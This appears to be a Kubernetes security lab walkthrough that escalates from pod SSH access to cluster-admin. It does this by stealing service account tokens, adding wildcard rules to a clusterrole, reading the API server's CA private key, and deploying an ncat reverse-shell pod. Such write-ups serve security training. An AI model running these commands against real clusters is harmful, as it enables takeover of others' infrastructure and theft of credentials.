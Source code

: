 # SSH to Get Secrets
This scenario begins with ssh access to a pod. The ssh credentials can be found in the scenario setup.

There are a couple of ways you can approach this one. First up (for either approach) we get secrets
1. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
2. `kubectl get secrets -n kube-system` will work and give you a list of available secrets

Now the question is, which secret to use. The first option might be the clusterrole-aggregation-controller, which needs steps that look like this.

3. This will give you the clusterrole-aggregation-controller token `kubectl -n kube-system get secret clusterrole-aggregation-controller-token-[RAND] -o json`
4. base64 decode the token field
5. Use the token as part of a kubectl command  `kubectl --token="[TOKEN]" get clusterroles` to confirm it's working
6. Edit the service account for the token you're using (weird but this particular service account token has the "escalate" permission which lets you do this) `kubectl edit clusterrole system:controller:clusterrole-aggregation-controller`

Add the following lines in the "rules" section

```yaml
- apiGroups:
  - '*'
  resources:
  - '*'
  verbs:
  - '*'
```

7. Now you're a `cluster-admin` :)
8. get the API server pod name `kubectl --token="[TOKEN]" -n kube-system get pods`
9. get the key `kubectl --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`

Here's another way of doing it, as some service accounts have got `create pods`

3. This will give you the replicaset-controller token `kubectl -n kube-system get secret system:controller:replicaset-controller-[RAND] -o json`
4. base64 deocde the token field
5. Start a new shell and exec into the client machine, then start an ncat listener on the client machine `ncat -l -p 8989`
6. run the pod `ncat-reverse-shell-pod.yml` on the target host, remembering to modify the target IP address to that of the client machine.
7. This should create a shell for you to access which has the pki directory mounted in `/pki`
